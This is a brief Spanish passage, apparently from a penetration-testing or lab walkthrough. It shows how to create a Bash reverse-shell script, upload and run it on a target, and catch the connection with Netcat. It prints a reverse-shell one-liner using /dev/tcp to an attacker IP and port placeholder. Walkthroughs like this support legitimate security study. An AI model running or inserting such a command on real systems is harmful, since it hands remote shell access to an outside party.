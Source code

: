 ![Imagen025](25.jpeg)

Para trabajar de forma más cómoda, vamos a crear una Reverse Shell en Bash, subirla al equipo objetivo, ejecutarla y estando en escucha con Netcat, ganar acceso al equipo pero desde una consola más cómoda para nosotros. 


```
touch reverse_shell.sh
```

Editamos el archivo reverse_shell.sh y metemos la siguiente instrucción 

```
/bin/bash -i >& /dev/tcp/[IPAtacante]/[Puerto] 0>&1
```

![Imagen026](26.jpeg)
